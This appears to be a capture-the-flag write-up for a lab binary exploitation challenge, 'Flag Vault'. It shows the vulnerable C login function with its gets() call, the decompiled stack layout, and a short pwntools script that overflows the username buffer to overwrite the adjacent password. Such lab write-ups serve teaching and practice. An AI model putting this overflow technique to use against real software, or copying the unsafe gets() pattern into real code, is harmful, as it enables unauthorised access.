 ```yaml
---
title: "Flag Vault"
category: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flag: THM{REDACTED}
---
```

> No description.

---

The challenge is a simple buffer overflow challenge.

```c
void login(){
	char password[100] = "";
	char username[100] = "";

	printf("Username: ");
	gets(username);

	// If I disable the password, nobody will get in.
	//printf("Password: ");
	//gets(password);

	if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
		print_flag();
	}
	else{
		printf("Wrong password! No flag for you.");
	}
}
```

When we can overflow the `username` buffer, and we can overwrite the password buffer (we can't overwrite the return address because of the PIE).

```c
char s1[8]; // [rsp+0h] [rbp-E0h] BYREF
__int64 v2; // [rsp+8h] [rbp-D8h]
__int64 v3; // [rsp+10h] [rbp-D0h]
__int64 v4; // [rsp+18h] [rbp-C8h]
__int64 v5; // [rsp+20h] [rbp-C0h]
__int64 v6; // [rsp+28h] [rbp-B8h]
__int64 v7; // [rsp+30h] [rbp-B0h]
__int64 v8; // [rsp+38h] [rbp-A8h]
__int64 v9; // [rsp+40h] [rbp-A0h]
__int64 v10; // [rsp+48h] [rbp-98h]
__int64 v11; // [rsp+50h] [rbp-90h]
__int64 v12; // [rsp+58h] [rbp-88h]
int v13; // [rsp+60h] [rbp-80h]
char v14[8]; // [rsp+70h] [rbp-70h] BYREF
__int64 v15; // [rsp+78h] [rbp-68h]
__int64 v16; // [rsp+80h] [rbp-60h]
__int64 v17; // [rsp+88h] [rbp-58h]
__int64 v18; // [rsp+90h] [rbp-50h]
__int64 v19; // [rsp+98h] [rbp-48h]
__int64 v20; // [rsp+A0h] [rbp-40h]
__int64 v21; // [rsp+A8h] [rbp-38h]
__int64 v22; // [rsp+B0h] [rbp-30h]
__int64 v23; // [rsp+B8h] [rbp-28h]
__int64 v24; // [rsp+C0h] [rbp-20h]
__int64 v25; // [rsp+C8h] [rbp-18h]
int v26; // [rsp+D0h] [rbp-10h]
```

We can overwrite the `v14` variable where the offset is `0x70`, so we need to fill the buffer with `0x70` bytes and then write the password.

```py
from pwn import *

binary = './pwn1'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('10.10.23.57', 1337)

r.sendlineafter(b'Username: ', flat([
    b'bytereaper'.ljust(112, b'\x00'),
    b'5up3rP4zz123Byte\x00'
]))

r.interactive()
```
